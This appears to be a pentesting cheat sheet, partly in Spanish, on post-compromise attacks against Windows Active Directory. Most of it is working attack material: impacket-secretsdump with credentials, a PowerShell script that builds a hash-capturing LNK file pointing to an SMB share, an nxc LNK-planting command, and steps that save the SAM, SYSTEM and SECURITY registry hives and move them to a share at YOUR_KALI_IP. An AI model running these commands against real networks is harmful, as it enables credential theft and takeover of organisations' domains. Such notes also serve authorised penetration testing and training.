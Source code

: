 # Windows Active Directory Pentesting

## Post compromise attacks

- [kali impacket - secrets dump](https://www.kali.org/tools/impacket/)
    - `impacket-secretsdump DC.LOCAL/USER:'PASSWORD'@$IP`
    - running secretsdump as local:
        - `impacket-secrestsdump -sam sam.save -security security.save -system system.save LOCAL`
- [Kerberoasting](./kerberoasting.md)
- [ASREPRoasting](./ASREPRoasting.md)
    - [más material](https://tools.thehacker.recipes/impacket/examples/getuserspns.py)
    - Cuando comprometemos una cuenta, un ataque para empezar es este.
- Token impersonation attack
    - psexec
    - [mimikatz](./mimikatz.md)
    - [pypykatz](./pypykatz.md)
    - [Golden Ticket Attack](./goldenTicketAttack.md)
        - [Extra sids Attack](./extraSidsAttack.md)
    - [AddKeyCredentialLink/Shadow Credentials Attack](./addKeyCredentialLink.md)
    - [Backup Operator to Domain Admin](./backupOperatorToDomainAdmin.md)
    - [DPAPI Attack](./dpapiAttack.md)
    - [Resource-Based Constrained Delegation](./resourceBasedConstrainedDelegation.md)
    - [GMSA abusing and s4u delegation attack](./gmsaAbusing.md)
    - [RID cycling attack](./ridCyclingAttack.md)
    - [MSSQL Microsoft SQL Server attacks](./mssql.md)
- [LNK File Attacks](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.rtf): `nxc smb 172.16.139.0/24 -u 'pthorpe' -p creds.txt -M slinky -o SERVER=172.16.139.10 NAME=urgent`
    - Código:

    ```powershell
    $objShell = New-Object -ComObject WScript.shell
    $lnk = $objShell.CreateShortcut("C:\test.lnk")
    $lnk.TargetPath = "\\192.168.138.149\@test.png"
    $lnk.WindowStyle = 1
    $lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
    $lnk.Description = "Test"
    $lnk.HotKey = "Ctrl+Alt+T"
    $lnk.Save()
    ``` 

    - `smbserver.py -smb2support "icon" .`


### Post compromise attack strategy
- 1st
    - [kerberoasting](./kerberoasting.md)
    - [ASREPRoasting](./ASREPRoasting.md)
    - secretsdump
    - pass the hash
- 2nd: big deep
    - enum bloodhound
    - old vulns

### An other post compromise attack strategy
#### Attacking SAM
- [Security Account Manager](https://en.wikipedia.org/wiki/Security_Account_Manager)
##### Copying SAM Registry Hives
- hklm\sam
- hklm\system
- hklm\security
- We can create backups of these hives using the reg.exe utility.

#### Using reg.exe save to copy registry hives.
 ```
 C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```

#### Creating a Share with impacket-smbserver
`impacket-smbserver -smb2support shareName someDir`

#### Moving hive copies to share
```
C:\> move sam.save \\YOUR_KALI_IP\CompData
        1 file(s) moved.

C:\> move security.save \\YOUR_KALI_IP\CompData
        1 file(s) moved.

C:\> move system.save \\YOUR_KALI_IP\CompData
        1 file(s) moved.
```
